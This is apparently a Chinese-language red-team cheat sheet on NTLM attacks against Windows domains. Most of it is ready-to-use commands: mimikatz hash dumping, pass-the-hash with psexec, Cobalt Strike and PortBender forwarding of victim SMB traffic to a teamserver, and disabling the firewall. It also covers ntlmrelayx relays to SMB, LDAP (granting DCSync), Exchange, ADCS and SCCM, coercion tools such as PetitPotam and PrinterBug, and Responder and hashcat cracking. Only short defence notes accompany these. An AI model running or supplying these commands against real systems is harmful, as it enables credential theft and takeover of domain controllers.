




# NTLM攻击面

## PTH（Pass-the-Hash）攻击

### 利用条件

- 获取**SYSTEM权限**或**完全管理员权限**

### 攻击方式

- 获取**NTLM HASH值**

  - 方法一：上传**mimikatz**获取**NTLM HASH值**

  ```shell
  mimikatz.exe "privilege::debug" "lsadump::lsa /patch" exit
  ```

  - 方法二：使用**Cobalt Strike**的**run mimikatz**和**dump hashs**功能获取**NTLM HASH值**

  

- 进行PTH攻击

  - 方法一：使用**psexec**工具进行PTH

  ```shell
  psexec <域名>/<用户名>@<目标服务器IP> -hashes <NTLM HASH值>
  ```

  - 方法二：使用**Cobalt Strike**进行PTH

    - 派生一个**SMB监听器**

    

    - 进行PTH（注意：若PC已打**KB2871997**补丁，只能使用**Administrator**账号进行PTH）

    

    

### 防御方式

- **KB2871997**补丁

## NTLM Relay 攻击


### 前期准备

#### 获取当前域信息

```powershell
net config workstation
```



#### 获取DC信息

- 方法一：使用**Nslookup**查询

```ini
# 模板
Nslookup <目标域名>
# 示例
Nslookup -type=SRV _ldap._tcp chatapt.com
```



- 方法二：使用**AdFind**查询

```shell
AdFind.exe -sc dclist
```



- 方法三：使用**PowerView**查询

```shell
powershell -ep bypass -c "Set-ExecutionPolicy Bypass -Scope process -Force;Import-Module .\PowerView.ps1;Get-NetDomainController"
```


#### 开启socks4代理

- 使用CobaltStrike开启socks4代理端口


- 配置proxychains为以下信息

```ini
# 模板
socks4 <teamserver服务器IP> <socks端口>
# 示例
socks4 192.168.25.132 48216
```

#### 开启端口转发

- 方法一：使用**PortBender**进行端口转发（需要**管理员**权限）

  - 上传**WinDivert**文件到**C:\Windows\system32\drivers**目录下（注意：win10不用此步骤）

  ```shell
  cd C:\Windows\system32\drivers
  # 模板
  upload <WinDivert*.sys路径>
  # 示例
  upload C:\Users\admin\Desktop\Test\CNA\PortBender\WinDivert64.sys
  ```

  - 关闭防火墙（注意：win10不用此步骤）

  ```shell
  netsh advfirewall set allprofiles state off
  ```

  - 把靶机的端口重定向

  ```shell
  PortBender redirect 445 8445
  ```

  

  - 把靶机的流量转发到teamserver

  ```shell
  # 模板
  rportfwd 8445 <teamserver服务器> 445
  # 示例
  rportfwd 8445 192.168.25.132 445
  ```

  

- 方法二：使用**StreamDivert**进行端口转发

  - 创建配置文件，把被**钓鱼终端**的**smb流量**转发到**teamserver服务器**

  ```ini
  # 模板
  tcp < 445 <被钓鱼终端IP> -> <teamserver服务器IP> 445
  # 示例
  tcp < 445 10.10.255.1 -> 192.168.25.132 445
  ```

  - 开启端口转发

  ```shell
  # 模板
  streamdivert.exe <配置文件>
  # 示例
  streamdivert.exe config.txt
  ```

### NTLM Relay - SMB

#### 攻击方式

- 检测目标机器是否开启**smb签名**，若显示**message_signing: required**则无法攻击

```shell
nmap -sT --script smb-security-mode.nse -p 445 -iL ip.list
```


- 攻击机开启**ntlmrelayx**监听

```shell
# 模板
proxychains python3 ntlmrelayx.py -smb2support -t smb://<目标域控服务器IP>
# 示例
proxychains python3 ntlmrelayx.py -smb2support -t smb://10.10.10.2
```


- 使用**强制认证漏洞**

#### 防御方式

- 开启**SMB签名**
  - 本地安全策略→安全设置→本地策略→安全选项→Microsoft 网络服务器：总是进行服务器消息块 (SMB) 签名

### NTLM Relay - LDAP

| 高权限用户              | 敏感ACL                        |
| ----------------------- | ------------------------------ |
| Enterprise admins       | DS-Replication-GetChanges      |
| Domain admins           | DS-Replication-Get-Changes-All |
| Built-in Administrators |                                |
| Backup operators        |                                |
| Account operators       |                                |

#### 攻击方式

- 攻击机开启**ntlmrelayx**进行监听

```shell
ntlmrelayx.exe --remove-mic -smb2support --escalate-user <域用户名> -t ldap://<受害机IP>
```

`--remove-mic参数用于消除MIC`
`--escalate-user参数用于给指定用户DcSync权限`
`--smb-port参数绑定smb端口，防止默认445端口被占用或禁止`
`--http-port参数绑定http端口，防止默认80端口被占用或禁止`

- 使用**强制认证漏洞**

#### 防御方式

- 开启**ldap签名**
  - 本地安全策略→安全设置→本地策略→安全选项→网络安全:LDAP客户端签名要求

### NTLM Relay - Exchange

#### 攻击方式

- 检测**Exchange服务器**是否开启**NTLM认证**

```shell
exchangeRelayx.exe -c -t https://ExchangeIP
```

- 攻击机开启**exchangeRelayx**监听

```shell
exchangeRelayx.exe -t https://ExchangeIP
```

##### 获取票据

- 使用**Exchange强制认证漏洞**

- 钓鱼攻击，发送**钓鱼邮件**使用用户访问恶意连接触发认证

### NTLM Relay - ADCS

#### 攻击方式

- 查看**ADCS服务器**是否开启**NTLM认证**，若返回结果为**WWW-Authenticate: NTLM**则开启NTLM认证

```
curl <ADCS服务器IP>/certsrv/ -I
```

- 攻击机开启**ntlmrelayx**的**adcs**监听

```shell
ntlmrelayx.exe -smb2support --target http://<ADCS服务器IP>/certsrv/certfnsh.asp --adcs --template DomainController -debug --smb-port 8445 --http-port 8080
```

`--smb-port参数绑定smb端口，防止默认445端口被占用或禁止`
`--http-port参数绑定http端口，防止默认80端口被占用或禁止`

##### 获取票据

- 使用**ADCSKiller**

```shell
python3 adcskiller.py -d <域名> -u <域用户> -p <密码> -L <ntlmrelayx监听终端IP> -dc-ip <目标域控服务器IP>
```

- 强制认证

  - 使用**强制认证漏洞**

  - 获取到证书后使用**Rubeus**请求票据

  ```
  Rubeus.exe asktgt /user:<域管理员用户> /certificate:<打印出来的base64证书数据> /ptt
  ```

### NTLM Relay - SCCM

#### 利用条件

1. 我们所在的主机是SCCM客户端
2. SCCM管理点服务器的FQDN或NetBIOS名称
3. SCCM站点的站点代码

#### 攻击方式

- 判断当前主机是否在**SCCM客户端**中

```shell
SharpSCCM.exe local site-info
```

- 查看当前用户的角色

```shell
SharpSCCM.exe <server> <sitecode> get class-instances SMS Admin -p CategoryNames -p CollectionNames -p LogonName -p RoleNames
```

- 查找能捕获NTLM的机器和账户

```shell
SharpSCCM.exe <server> <sitecode> get primary-user -u <username>
```

- 攻击机开启**ntlmrelayx**的**sccm**监听

```shell
ntlmrelayx.exe -smb2support -ts -ip <relay _ip> -t <target ip> -of ~/hashes.txt
```

- 触发**sccm认证**

```shell
SharpSCCM.exe <server> <sitecode> exec -d <device name> -r <relay server ip>
```

#### 防御方式

- 在**SCCM管理点服务器**取消勾**允许连接回退到 NTLM(N)**
  - 站点配置→站点属性→通信→客户端通信→客户端回退到 NTLM(N)

### 强制认证漏洞

#### 域控强制认证

##### Coercer - 一箭四雕（推荐）

- 使用**scan**模块查看可利用的接口

```shell
Coercer scan -u '<域用户>' -p '<密码>' -d <域名> -I <ntlmrelayx监听终端IP> --http-port <ntlmrelayx监听终端的http服务端口> --smb-port <ntlmrelayx监听终端的smb服务端口> -t <目标辅域控IP> -v
```

- 使用**coerce**模块进行强制认证

```shell
Coercer coerce -u '<域用户>' -p '<密码>' -d <域名> -l <ntlmrelayx监听终端IP> --http-port <ntlmrelayx监听终端的http服务端口> --smb-port <ntlmrelayx监听终端的smb服务端口> -t <目标辅域控IP> -v
```

###### PrinterBug

- 使用**printerbug**触发辅域控进行强制认证

```shell
# 模板
proxychains python3 printerbug.py <域名>/<域用户名>:<密码>@<辅域控IP> <中继IP>
# 示例
proxychains python3 printerbug.py chatapt.com/worker01:'1qaz@WSX'@10.10.10.2 10.10.255.1
```

###### PetitPotam

- 使用**PetitPotam**触发辅域控进行强制认证

```shell
# 模板
proxychains python3 petitpotam.py <中继IP> <辅域控IP>
# 示例
proxychains python3 petitpotam.py -d chatapt.com -u worker01 -p 1qaz@WSX 10.10.255.1 10.10.10.2
```

###### DFSCoerce

- 使用**dfscoerce**触发辅域控进行强制认证

```shell
python3 dfscoerce.py -u username -p password -d ad.com 攻击机IP 辅域控IP
```

###### ShadowCoerce

- 使用**shadowcoerce**触发辅域控进行强制认证

```shell
python3 shadowcoerce.py -u username -p password -d ad.com 攻击机IP 辅域控IP
```

#### Exchange强制认证

##### PrivExchange

- 使用**privexchange**触发**Exchange服务器**进行强制认证

```shell
python3 privexchange.py -u username -p password -d ad.com -ah 攻击机IP Exchange服务器IP
```

## 其他

### NTLM Info

- 使用**NTLM协议**对目标服务器进行**信息收集**

```shell
./ntlminfo smb --host <目标IP>
./ntlminfo rpc --host <目标IP>
./ntlminfo ldap --host <目标IP>
```

### Net-NTLM V1破解

- 攻击机开启**Responder**监听

```shell
python2 Responder.py -I eth0 -v --lm
```

- 受害机执行命令

```shell
net use \攻击机IP\aaa
```

- 使用**crack.sh网站**进行破解

### Net-NTLM V2破解

- 获取以下两个数据包

```
Rsponse, Error: STATUS_MORE_ROCESSING_REQUIRED, NTLMSSP_CHALLENGE
Rquest, NTLMSSP_AUTH, User: ad12\administrator
```

- 查看第一个数据包的**NTLM Server Challenge**的值

```
NTLM Server Challenge: 89d90c3455fa25fo
```

- 查看第二个数据包，获取**Domain name**、**user name**、**NTProofStr（HMAC-MD5）**的值

```
Domain name: ad12
user name: administrator
NTProofstr: b07b59c33b3cd56774a7dcgf8dc2ff47
```

- 拼接**NTLMv2 HASH**

```
username::domain:challenge:HMAC-MD5:blob
```

- 使用**hashcat**进行破解

```shell
hashcat -m 5600 username::domain:challenge:HMAC-MD5:blob password.list -o result.txt --force
```

# 鸣谢

[**mimikatz**](https://github.com/gentilkiwi/mimikatz)

[**PowerView**](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

[**nmap**](https://github.com/nmap/nmap)

[**impacket**](https://github.com/fortra/impacket)

[**ExchangeRelayX**](https://github.com/quickbreach/ExchangeRelayX)

[**ADCSKiller**](https://github.com/grimlockx/ADCSKiller)

[**Rubeus**](https://github.com/GhostPack/Rubeus)

[**SharpSCCM**](https://github.com/Mayyhem/SharpSCCM)

[**Coercer**](https://github.com/p0dalirius/Coercer)

[**PetitPotam**](https://github.com/topotam/PetitPotam)

[**DFSCoerce**](https://github.com/Wh04m1001/DFSCoerce)

[**ShadowCoerce**](https://github.com/ShutdownRepo/ShadowCoerce)

[**PrivExchange**](https://github.com/dirkjanm/PrivExchange)
